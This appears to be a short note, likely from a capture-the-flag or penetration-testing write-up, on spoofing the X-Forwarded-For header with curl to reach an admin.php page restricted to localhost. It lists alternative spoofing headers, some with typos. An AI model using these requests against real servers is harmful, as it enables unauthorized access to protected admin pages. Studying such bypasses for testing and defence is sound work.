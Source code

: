 
```cmd
curl --header "X-Forwarded-For: 192.168.0.2" http://example.com
```

```cmd
curl http://35.242.212.223:31860/admin.php --header "X-Forwarded-For:127.0.0.1"
```

- X-Originating-TP: 127.0.0.1
- X-Forwarded-For: 127.0.0.1
- X-Remote-TP: 127.0.0.1
- X-Remote-Addr: 127.0.0.1
- X-ProxyUser-IP: 127.0.0.1
